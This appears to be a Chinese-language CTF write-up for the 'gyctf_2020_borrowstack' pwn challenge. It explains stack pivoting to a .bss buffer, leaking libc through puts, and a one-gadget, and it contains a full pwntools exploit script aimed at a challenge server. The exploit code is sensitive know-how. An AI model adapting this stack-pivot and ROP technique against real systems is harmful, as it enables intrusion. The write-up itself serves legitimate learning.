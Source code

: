 ```yaml
---
title: 'gyctf_2020_borrowstack'
date: 2024-10-06 13:00:00 +0800
categories: [ctf,pwn]
tags: [Stack_Pivoting,one_gadgets,64bit]
---
```

- 栈迁移
- one-gadgets
- 64泄露libc

![image-20240127002802945](../assets/img/old_imgs/image-20240127002802945.png)

1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python3
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来
